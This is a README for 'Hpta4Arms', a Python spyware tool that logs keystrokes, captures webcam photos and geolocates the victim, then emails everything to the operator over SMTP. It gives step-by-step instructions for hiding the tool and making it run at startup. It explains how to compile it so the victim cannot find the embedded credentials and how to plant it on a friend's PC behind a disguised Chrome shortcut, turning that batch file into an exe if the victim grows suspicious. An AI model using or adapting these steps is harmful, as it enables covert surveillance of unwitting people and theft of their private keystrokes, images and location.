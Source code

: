 #Hpta4Arms 
is a buggy tool used to spy on your friends it consists of 4_MAIN_ARMs
`First Arm` : is Key logger that will save your key logs to a file called `log.in` <br>
`Second Arm` : will take photo from your laptop camera and save it in a file called `logg.png` <br>
`Third Arm` : will detect your location using this API freegeoip.net <br>
`Fourth Arm` : will package the last three arms and send them to your email address that you provide <br>

#Working Technique
first thing this is a spying tool so it has to work secretly in the background and run every time the computer is restarting and that is exaclly what `hide()` and `addStartup()`
do so let's start from the beginning : <br>
1- Hpta4Arms will hide itself and added to your start-up apps with the value of true <br>
2- and after that it will open afile called `log.in` and write a `START::` word at the beginning it is a mark for your logs starting<br>
3- it will take a photo and save it to a file called logg.jpg this file will delete himself after it has been sent to the email address<br> 
4- it will detect your location (Lat & lng)--(this might not be accurate because of the API it will detect your first public IP and return it's location)<br>
5- it will send an email to the address you provided with this plain text<br>
`
My name is YOUR_FRIEND'S_PC_NAME <br>
I am at YOUR_FRIEND'S_LOCATION locate me on the map : http://www.whatsmygps.com/ <br>
`
this message will have two files attached the log.in (Logs Text file) and logg.jpg (photo that has been captured from your friend cam)<br>
![Hpta4Arms](https://github.com/GardiansLab/Hpta4Arms/Capture.PNG)

#Install
first you need to install the python packages to help in building your exe files you can plant it in your friend PC so let's go 
1- you need to install the packages from the requirements.txt file using this command  (navigate to the tool folder using your CMD)
`pip install requirement.txt` 
2- you need to specify the from and to email address to can send the email 
open 'Hpta4Arms.py' and goto line 108 & 109 and change the value to your from and to email addresses
Note :you can use the same email to send the message from the same email.<br>
3- go to line 144 and type your password 
4- here im using hotmail so in line 142 iam using smtp.live.comif you are using another email i.e gmail,yahoo,...etc you should provide your correct protocol
`smtplib.SMTP('smtp.live.com', 587)`
5-after that you need to get your exe file to prevent the victim from discovering your email and password if he discover the trick so you have pyinstaller then go to your CMD and run 
`pyinstaller Hpta4Arms.py`
6-two files will be created `dist` and `build` navigate to `dist/Hpta4arms/Hpta4arms.exe` you friend has to run this file to enables you spying on him
7- check the "Plant the tool in your friend PC" section to hide the tool with another software . 

#Plant the tool in your friend PC
now you have the exe file if you run it a cmd will open and close in a second (it's not closing it's hiding :D )
so more on hiding the tool without discovering it is to create a batch file that run a specific software and the tool in the same time
,most of people are using chrome so i will create a batch file that will run chrome and Hpta4Arms together so, go ahead and create a file called launch.bat
and paste the code in launch.bat in it . 
if your friend is using another software replace third line with the path of your friend's favourite software (make sure it is the exe file)
then go to desktop and right click and create shortcut and add the path to this batch file and rename the file chrome so your friend now will 
open this to start working on chrome and the tool is starting in the background 

#Give me more
let's suppose your friend is smart he will figure out that this batch file might be buggy so he avoid running it so now you will convert this batch file to exe file 
doing the same task go to bat2exe folder you will find a file called how_to_run.txt to convert any batch file to exe file 

#Examples
in the examples folder you will find testing for each arm alone feel free to edit them and made a pull request if there isn't anything 
working right with you contact me at ahmedkhaled36@hotmail.com

#If you have any problem 
if you are missing some of the modules you can install it using pip or check out this blog i wrote about installing any module [Here](http://ahmed-khd.blogspot.com.eg/2017/01/how-to-install-python-modules-very-easy.html)

#license
The package is open-sourced software licensed under the [MIT license].